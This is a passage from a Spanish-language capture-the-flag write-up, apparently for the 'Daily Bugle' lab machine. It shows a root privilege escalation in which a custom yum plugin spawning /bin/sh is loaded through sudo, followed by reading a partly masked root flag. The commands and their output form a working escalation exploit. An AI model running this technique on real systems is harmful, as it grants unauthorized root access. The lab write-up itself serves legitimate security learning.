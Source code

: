 En resumen, estos comandos nos permiten generar una shell interactiva con privilegios de `root` mediante la carga de un plugin personalizado.

A continuación, ejecutamos los códigos mencionados anteriormente y logramos obtener una shell con privilegios de usuario `root`.

```bash
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
```

En este punto, lo único que nos queda por hacer es leer la flag de `root` en su directorio principal.

```bash
sh-4.2# cd /root/
sh-4.2# cat root.txt 
eec3d53292b18218****************
```

¡Happy Hacking!
